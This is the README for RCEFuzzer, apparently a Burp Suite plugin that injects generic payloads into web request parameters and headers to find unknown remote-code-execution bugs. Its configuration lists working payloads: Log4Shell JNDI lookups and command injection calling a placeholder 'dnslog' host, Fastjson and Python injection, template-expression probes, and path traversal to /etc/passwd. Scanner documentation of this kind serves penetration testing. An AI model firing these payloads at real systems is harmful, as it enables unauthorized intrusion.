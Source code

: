 # RCEFuzzer


## 下载使用

[https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5](https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5)

## 基本介绍

这是一个以fuzz为中心思想的被动扫描工具(该版本是BURP插件,并非独立工具)，多数扫描器的工作逻辑是以已知漏洞去冲目标，然后根据条件判断是否存在这个已知的漏洞；rcefuzzer的工作逻辑是以通用payload去污染目标的参数，然后根据条件判断是否存在未知漏洞。

举个例子，假设被动收集到的流量是

https://www.baidu.com
```
POST /sys/customer/list HTTP/1.1
Host: www.baidu.com
Content-Length: 23
Content-Type: application/json;charset=UTF-8

{"key1":"value1","key2":"eyJpbm5lcmtleTEiOiJpbm5lcnZhbHVlMSJ9","id":1,"isLogin":false,"key3":{"innerkey2":"{\"k3\":\"v3\"}"}}
```
如果配置了三条通用的payload:
```
${jndi:ldap://dnslog/log4j}
`whoami`.dnslog
{"@type":"java.net.Inet4Address","val":"dnslog"}
```

那么rcefuzzer的参数污染模块将对目标发起以下请求：

* 污染key1的值然后分别发包
* 通用污染key1的值然后分别发包
* 尝试自动解码，并污染子JSON的innerkey1的值3次然后分别发包
* 污染key3的值然后分别发包。
* 污染子JSONinnerkey2的值，然后分别发包。
* 尝试解析innerkey2，并污染子JSON的k3的值然后分别发包

理论上总的请求量是3*6=18次。这仅是参数污染模块，如果带上其他模块，那请求量可能是50。如果payload写得多点，原流量大一点，那么可能是5000次。

## 配置说明

```

###
#
# 配置说明:
#    1.tweb的配置是必须要改的, 不改显示不了漏洞
#    2.白名单的优先级是高于黑名单的
#    3.所有配置都是可以动态改的, 不用重新加载插件
# 使用说明:
#    https://www.wolai.com/gS5UWgMmHG4ynJQgzL3AYk
###
config:
  version: |  # 插件版本
    0.5
  twebdomain: | # tweb 子域名配置
    xxx.xx.com
  twebapi: |  # tweb api配置 其中KEY为展位符,在新旧版本的tweb均可在Profile页面找到
    https://admin.xxxx.com/logs?token=xxxxxx&type=dns&q=KEY
  timeout: |  # 扫描过程中的超时配置 非tweb请求超时设置 单位毫秒 60000为60秒
    60000
  hostBlacklistReg: |  # 禁止扫描的域名列表
    (.+?)(gov\.cn|edu\.cn|tweb|google|gstatic)(.+?)
  extBlacklist: |  # 禁止扫描的后缀列表,这不是正则，本来想从passive-scan-client中抄代码的,结果发现他有bug...
    .js|.css|.jpeg|.gif|.jpg|.png|.pdf|.rar|.zip|.docx|.doc|.ico

jsonPollution:
  status:  #on为开启 off为关闭
    on
  allin: | #替换整个json数据包
    {"@type":"java.net.Inet4Address","val":"dnslog"}
  value: | #仅污染json的键值 为了python eval那种情况考虑 不加双引号包裹的话污染结果类似{"test":__import__('os')} {"test":"{\"dtaa\":__import__('os')}"}
    "${jndi:ldap://dnslog/jsonkey}"
    __import__('socket').gethostbyaddr('dnslog')

paramPollution:
  status: #on为开启 off为关闭
    on
  exprs: | #为了兼容有回显的表达式注入/代码执行漏洞
    {{9527*2333}}|22226491
    ${T(java.lang.System).getenv()}|JAVA_HOME
    ${T+++++++(java.lang.System).getenv()}|JAVA_HOME
    {php}var_dump(md5(9527));{/php}|52569c045dc348f12dfc4c85000ad832
    {if+var_dump(md5(9527))}{/if}|52569c045dc348f12dfc4c85000ad832
    ../../../../../../../../../../../../../../../etc/passwd|root
  value: |
    dnslog
    ${jndi:ldap://paramPollution.dnslog/log4j}
    `whoami`.dnslog
    http://dnslog/
    ping+-nc+1+dnslog

headerPollution:
  status: #on为开启 off为关闭
    on
  allin: | #一次性污染除了url和host外的所有请求头
    ${jndi:dns://dnslog/456}
    ${jndi:ldap://dnslog/789}
  headers: | #添加的请求头如果原数据包有则追加原值污染 无则添加后再发包 竖线|为key和value的分隔符号。
    X-Forwarded-For|${jndi:dns://dnslog/456}
    X-Api-Version|${jndi:dns://dnslog/456}

ssrfPollution:
  status: #on为开启 off为关闭
    on

responseMatch:
  status: #on为开启 off为关闭
    off
  expr: | #添加的请求头如果原数据包有则覆盖原值污染 无则添加后再发包
    thinkphp:error


```
